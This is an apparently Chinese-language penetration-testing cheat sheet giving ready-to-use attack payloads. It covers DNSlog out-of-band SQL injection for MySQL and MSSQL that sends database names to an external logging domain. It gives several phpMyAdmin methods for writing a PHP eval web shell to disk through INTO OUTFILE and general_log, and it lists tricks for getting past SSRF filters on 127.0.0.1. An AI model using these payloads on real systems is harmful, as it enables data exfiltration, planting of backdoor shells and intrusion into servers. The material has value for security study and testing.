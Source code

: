 ## DNSlog

> （1）没有回显的情况下，一般编写脚本，进行自动化注入。但与此同时，由于防火墙的存在，容易被封禁IP，可以尝试调整请求频率，有条件的使用代理池进行请求。
> 
> （2）此时也可以使用 DNSlog 注入，原理就是把服务器返回的结果放在域名中，然后读取 DNS 解析时的日志，来获取想要的信息。
> 
> （3）Mysql 中利用 load\_file() 构造payload
> 
> ‘ and if((select load\_file(concat(‘\\\\’,(select database()),’.xxx.ceye.io\\abc’))),1,0)#
> 
> （4）Mssql 下利用 master..xp\_dirtree 构造payload
> 
> DECLARE @host varchar(1024);SELECT @host=(SELECT db\_name())+’.xxx.ceye.io’;EXEC(‘master..xp\_dirtree”\\’+@host+’\\foobar$”‘);

## phpmyadmin写sehll的方法

一、常规导入shell的操作

> 创建数据表导出shell
> 
> CREATE TABLE `mysql`.`shadow9` (`content` TEXT NOT NULL );
> 
> INSERT INTO `mysql`.`shadow9` (`content` ) VALUES (‘<?php @eval($\_POST\[pass\]);?>’);
> 
> SELECT `content` FROM `shadow9` INTO OUTFILE ‘C:\\phpStudy\\WWW\\90sec.php’;
> 
> DROP TABLE IF EXISTS `shadow9`;

二、一句话导出shell：

select '<?php @eval($\_POST\[pass\]);?>' into outfile 'c:/phpstudy/www/90sec.php'; select '<?php @eval($\_POST\[pass\]);?>' into outfile 'c:\\\\phpstudy\\\\www\\\\90sec.php';select '<?php @eval($\_POST\[pass\]);?>' into dumpfile 'c:\\\\phpstudy\\\\www\\\\bypass.php';

三、日志备份获取shell

show global variables like "%genera%"; //查询general\_log配置set global general\_log='on'; //开启general log模式SET global general\_log\_file='D:/phpStudy/WWW/cmd.php'; //设置日志文件保存路径SELECT '<?php phpinfo();?>'; //phpinfo()写入日志文件set global general\_log='off'; //关闭general\_log模式

## SSRF 禁用 127.0.0.1 后如何绕过，支持哪些协议？

答：

> (1)利用进制转换
> 
> (2)利用DNS解析
> 
> (3)利用句号（127。0。0。1）
> 
> (4)利用\[::\]（http://\[::\]:80/）；
> 
> (5)利用@（[http://example.com@127.0.0.1](http://127.0.0.1/ "http://example.com@127.0.0.1")）；
> 
> (6)利用短地址（[百度短网址](http://dwz.cn/11SMa "百度短网址")）；
> 
> (7)协议（Dict://、SFTP://、TFTP://、LDAP://、Gopher://）
